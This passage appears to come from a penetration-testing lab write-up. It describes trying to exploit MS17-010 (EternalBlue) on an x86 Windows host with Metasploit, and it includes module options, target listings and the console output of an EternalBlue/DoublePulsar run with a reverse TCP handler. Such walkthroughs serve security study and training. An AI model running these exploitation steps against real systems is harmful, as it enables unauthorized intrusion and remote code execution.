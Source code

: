 

#### Built In

That's good, and confirms what I already know from AutoBlue. The output
from the scan shows this is a x86 system, which is a problem, as the
standard Metasploit modules for MS17-010 only target x64 systems.

I can switch to the `exploit/windows/ms17_010_eternalblue` module, but
when I run `options` and `show targets`, I'll see only x64 is supported:



    msf5 exploit(windows/smb/ms17_010_eternalblue) > options

    Module options (exploit/windows/smb/ms17_010_eternalblue):

       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS                          yes       The target address range or CIDR identifier
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


    Exploit target:

       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs


    msf5 exploit(windows/smb/ms17_010_eternalblue) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs



#### Outside Module

There are several tutorials out there (like [this
one](https://www.cybrary.it/0p3n/hack-windows-eternalblue-exploit-metasploit/))
that show how to load an outside exploit into Metasploit to target x86
machines. To do so, I must load 32-bit Wine. I followed the tutorial,
but I was unable to get a session. It would tell me that the backdoor
was installed, but it was unable to trigger it:



    msf5 exploit(windows/smb/eternalblue_doublepulsar) > run

    [*] Started reverse TCP handler on 10.254.1.47:4444
    [*] 10.1.1.13:445 - Generating Eternalblue XML data
    [*] 10.1.1.13:445 - Generating Doublepulsar XML data
    [*] 10.1.1.13:445 - Generating payload DLL for Doublepulsar
    [*] 10.1.1.13:445 - Writing DLL in /root/.wine/drive_c/eternal11.dll
    [*] 10.1.1.13:445 - Launching Eternalblue...
    [+] 10.1.1.13:445 - Pwned! Eternalblue success!
    [*] 10.1.1.13:445 - Launching Doublepulsar...
    [+] 10.1.1.13:445 - Remote code executed... 3... 2... 1...
    [*] Exploit completed, but no session was created.      
